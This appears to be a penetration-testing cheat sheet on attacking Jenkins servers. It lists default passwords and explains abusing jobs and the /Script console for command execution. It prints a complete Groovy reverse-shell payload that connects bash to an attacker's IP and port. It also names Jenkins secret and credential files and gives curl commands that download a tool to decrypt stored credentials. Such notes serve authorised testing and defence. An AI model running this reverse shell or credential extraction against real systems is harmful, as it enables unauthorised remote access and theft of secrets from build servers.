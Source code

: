 # Jenkins


[Jenkins](https://www.jenkins.io/)  – an open source automation server which enables developers around the world to reliably build, test, and deploy their software.  [Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat. It is used in Automated Build pipelines and CICD.

Default Passwords
```
jenkins jenkins
admin admin
```

## Pwning Jenkins

[pwn-jenkins](https://github.com/gquere/pwn_jenkins) are Notes about attacking Jenkins servers

## Exploitation of Jenkins Panel

With access you can create schduleable jobs that accept shell commands for both Windows and Linux. 

`Dashboard -> Create a job -> Freeform project -> Configure`

May require cronjob schedule syntax even on Windows - `* * * * *` to run every minute.

`/Script` endpoint is script console


```groovy
String host="IP";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Credential Decryption

Find
```bash
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```

With [Hoto's jenkins decryptor](https://github.com/hoto/jenkins-credentials-decryptor)
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor

./jenkins-credentials-decryptor \
  -m master.key \
  -s hudson.util.Secret \
  -c config.xml \
  -o json
```


## References

[Jenkins Official ](https://www.jenkins.io/)  
[Wikipedia Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) 
[Hoto's jenkins decryptor](https://github.com/hoto/jenkins-credentials-decryptor)
